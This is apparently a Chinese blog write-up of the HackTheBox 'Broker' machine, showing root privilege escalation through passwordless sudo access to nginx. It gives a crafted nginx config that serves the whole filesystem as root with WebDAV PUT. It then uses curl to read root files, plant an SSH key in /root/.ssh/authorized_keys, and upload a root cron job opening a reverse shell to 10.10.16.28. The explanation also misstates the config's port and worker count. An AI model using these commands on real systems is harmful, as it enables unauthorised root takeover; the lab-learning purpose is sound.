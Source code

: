 ```yaml
---
title: sudo nginx提权学习
categories:
  - Linux
tags:
  - Linux
  - PE
---
```

## 0x00 前言
在[Broker](https://app.hackthebox.com/machines/Broker)这台机器上学的一种提权方式，重点是nginx配置文件的学习，以及如何通过上传文件到任意位置得到root权限。

---
## 0x01 枚举
使用`sudo -l`可以得到如下信息
```bash
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
能使用sudo通过无密码的方式以root用户的权限运行nginx命令

运行`nginx -h`得到帮助信息
```bash
nginx version: nginx/1.18.0 (Ubuntu)
Usage: nginx [-?hvVtTq] [-s signal] [-c filename] [-p prefix] [-g directives]

Options:
  -?,-h         : this help
  -v            : show version and exit
  -V            : show version and configure options then exit
  -t            : test configuration and exit
  -T            : test configuration, dump it and exit
  -q            : suppress non-error messages during configuration testing
  -s signal     : send signal to a master process: stop, quit, reopen, reload
  -p prefix     : set prefix path (default: /usr/share/nginx/)
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
  -g directives : set global directives out of configuration file

```
可以看到-c标志能指定nginx服务的配置文件，所以我们可以通过更改配置文件的方式来利用它。

---
## 0x02 通过PUT方法上传公钥
既然可以以root用户运行nginx命令，那么我们可以写一个以root用户运行的nginx服务的配置文件，根目录就为`/`

之后使用`dav_methods PUT;`定义put方法，就可以以root用户的身份上传文件。

在/dev/shm目录下写一个nginx配置文件，名为ix1.conf

```bash
user root;
worker_processes auto;
pid /run/nginx2.pid;
events {
	worker_connections 768;
}
http {
	server {
		listen 1111;
		root /;
		autoindex on;

		dav_methods PUT;
	}	

}
```

1. **`user root;`：**
    - 设置 Nginx 进程的运行用户为 **`root`**。这是指定 Nginx 进程以特定用户身份运行的一种方式。
2. **`worker_processes 4;`：**
    - 指定启动的 Nginx worker 进程的数量为 4。Nginx 使用多进程模型，每个 worker 进程可以处理并发请求。
3. **`pid /run/nginx2.pid;`：**
    - 指定存储主进程 ID 的文件路径。Nginx 主进程的 ID 将被写入此文件，以便后续管理和监控。
4. **`events { ... }`：**
    - 定义与事件相关的配置块，如最大连接数等。
    - **`worker_connections 768;`：** 指定每个 worker 进程的最大连接数。
5. **`http { ... }`：**
    - 定义与 HTTP 相关的配置块。
    - **`server { ... }`：** 定义一个简单的虚拟主机。
        - **`listen 1111;`：** 指定监听的端口号为 1111。
        - **`root /;`：** 指定服务器的根目录为根目录（/），这表示 Nginx 将会从文件系统的根目录提供文件。
        - **`autoindex on;`：** 打开自动目录索引功能，当访问一个目录时，如果没有默认的索引文件（如 index.html），则显示该目录下的文件列表。
        - **`dav_methods PUT;`：** 启用 WebDAV 的 **`PUT`** 方法，允许客户端上传文件到服务器。

这个配置文件的目的是创建一个简单的 Nginx 服务器，监听端口 1337，允许通过 WebDAV 的 **`PUT`** 方法上传文件，同时启用了自动目录索引。请注意，实际生产环境中的配置可能需要更多的安全性和性能优化。

然后使用`sudo nginx -c`指定配置文件

```bash
sudo nginx -c /dev/shm/ix1.conf
```

运行`ss -lntp`可以看到1111端口开放，说明以上配置成功。

```bash
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                                                                                                   
LISTEN 0      511          0.0.0.0:80         0.0.0.0:*    users:(("nginx",pid=924,fd=6),("nginx",pid=923,fd=6),("nginx",pid=922,fd=6))                             
LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*    users:(("systemd-resolve",pid=519,fd=14))                                                                
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=947,fd=3))                                                                            
LISTEN 0      511          0.0.0.0:1111       0.0.0.0:*    users:(("nginx",pid=3859,fd=6),("nginx",pid=3858,fd=6),("nginx",pid=3857,fd=6))                          
LISTEN 0      511          0.0.0.0:12345      0.0.0.0:*    users:(("nginx",pid=1883,fd=6),("nginx",pid=1882,fd=6),("nginx",pid=1881,fd=6),("nginx",pid=1880,fd=6),("nginx",pid=1879,fd=6),("nginx",pid=1878,fd=6))
LISTEN 0      4096               *:61613            *:*    users:(("java",pid=966,fd=145))                                                                          
LISTEN 0      50                 *:61614            *:*    users:(("java",pid=966,fd=148))                                                                          
LISTEN 0      4096               *:61616            *:*    users:(("java",pid=966,fd=143))                                                                          
LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=947,fd=4))                                                                            
LISTEN 0      4096               *:1883             *:*    users:(("java",pid=966,fd=146))                                                                          
LISTEN 0      50                 *:34783            *:*    users:(("java",pid=966,fd=26))                                                                           
LISTEN 0      50                 *:8161             *:*    users:(("java",pid=966,fd=154))                                                                          
LISTEN 0      4096               *:5672             *:*    users:(("java",pid=966,fd=144))
```

然后可以使用`curl`查看主机上的任意文件。

```bash
activemq@broker:/dev/shm$ curl localhost:1111/root/root.txt
xxxxxxxxxxxxxxxxxxxx
```

也可以通过`PUT`方法上传文件到任意位置。

在本机生成一个公私钥对

```bash
ssh-keygen
```

然后通过curl上传（三种方式都行）

```bash
curl -X PUT localhost:1111/root/.ssh/authorized_keys -d "$(cat root.pub)"
curl -T root.pub localhost:1111/root/.ssh/authorized_keys
curl --upload-file root.pub localhost:1111/root/.ssh/authorized_keys
```

然后通过`ssh -i`指定私钥连接。

---
## 0x03 写计划任务反弹shell
可以通过在`/var/spool/cron/crontab`下写一个root用户的计划任务反弹shell

新建一个文件内容如下

```bash
* * * * * bash -c "bash -i >& /dev/tcp/10.10.16.28/9999 0>&1"
```

意思是每一分钟执行一次。

不理解可以看`/etc/crontab`文件

```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

然后上传到`/var/spool/cron/crontabs/root`

<aside> ⚠️ 在 Unix/Linux 系统中，/var/spool/cron/crontabs/ 目录通常包含了每个用户的个人 cron 作业文件。这个目录下的文件名称通常以用户名为基础，对应每个用户的 crontab 文件。这些文件包含了用户通过 crontab -e 命令编辑的定时任务。

</aside>

```bash
curl -T cron localhost:1111/var/spool/cron/crontabs/root
```

等待一分钟
![1](../assets/img/2023-11-18-sudo nginx提权学习/1.png)

